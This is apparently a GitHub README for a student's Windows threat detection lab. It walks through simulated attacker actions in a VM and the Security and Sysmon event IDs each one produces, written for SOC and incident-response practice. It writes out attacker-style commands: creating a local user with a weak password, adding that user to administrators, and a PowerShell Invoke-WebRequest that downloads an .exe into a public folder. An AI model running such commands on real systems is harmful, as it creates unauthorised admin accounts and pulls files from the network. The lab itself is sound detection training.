





# windows-threat-detection-lab
Windows threat detection lab simulating attacker behavior and analyzing Sysmon + Security logs for incident response. Includes detection of account creation, privilege escalation, failed logons, suspicious PowerShell, network connections, and file creation events

#  Lab Environment

- Windows 10 VM (VirtualBox)  
- Sysmon installed with the SwiftOnSecurity config  
- PowerShell  
- Event Viewer  
  - Security Logs  
  - Sysmon Operational Logs  

---

#  Simulated Attacker Actions

To produce logs that a SOC or IR team would normally investigate, I performed a series of actions inside the VM:

- Created a new user  
- Gave the user administrator rights  
- Triggered multiple failed logins  
- Logged in successfully  
- Ran simple recon commands using PowerShell  
- Downloaded a file from the internet  
- Created new files on disk  

Each action generated specific logs that I reviewed and documented.

---

#  Event Log Findings

Below are the key logs captured, in the order they would typically appear during an attack.

---

## 1.Event ID 4720 — New User Created

Command:
```powershell
net user testuser Password123! /add
```


---

## 2.Event ID 4732 — User Added to Administrators

Command:
```powershell
net localgroup administrators testuser /add
```


---

## 3.Event ID 4625 — Failed Login Attempts

Multiple incorrect logins were used to simulate password guessing or brute force activity.



---

##  4.Event ID 4624 — Successful Login

A successful login appears after the failed attempts, indicating access was eventually gained.


---

#  5.PowerShell Recon (Sysmon Event ID 1)

Attackers often run small commands to check basic system info.  
In this case, we used `whoami` to identify the current user.


---


---

##  6.Get-Process

```powershell
powershell.exe -Command "Get-Process"
```


---

#  7.File Download via PowerShell

##  Invoke-WebRequest (Sysmon Event ID 1 & 3)

This simulates downloading a file from an external host.

Command:
```powershell
powershell.exe -Command "Invoke-WebRequest -Uri http://example.com -OutFile C:\Users\Public\test123.exe"
```

Captured logs include:

- **Event ID 1** — Process creation (PowerShell)  
- **Event ID 3** — Outbound network connection  



---

#  8.File Creation (Sysmon Event ID 11)

Sysmon logs whenever a new file is created.  
This can help spot dropped payloads or scripts.


---

#  What This Lab Demonstrates

- How Windows logs respond to common attacker techniques  
- How to read Security and Sysmon event data  
- How PowerShell activity shows up in logs  
- How to connect different events into an attack timeline  
- Early indicators such as:
  - new users  
  - privilege escalation  
  - login failures  
  - suspicious PowerShell commands  
  - outbound HTTP requests  
  - new files appearing on disk  

---

#  Relevance to Security Roles

This lab gave me practical experience with:

- Windows event analysis  
- Investigating suspicious activity  
- Understanding attacker behaviour  
- Using Sysmon for endpoint visibility  
- Thinking like a SOC / IR analyst  

It directly supports roles such as:

- SOC Analyst  
- Threat Detection & Incident Response
- Cybersecurity Analyst (Entry-Level)

---

#  Contact  
If you have questions or want to connect:

**LinkedIn:** https://linkedin.com/in/bryan-koid-b91276213  

---

#  End of Project  
Thank you for viewing this Windows threat detection lab!
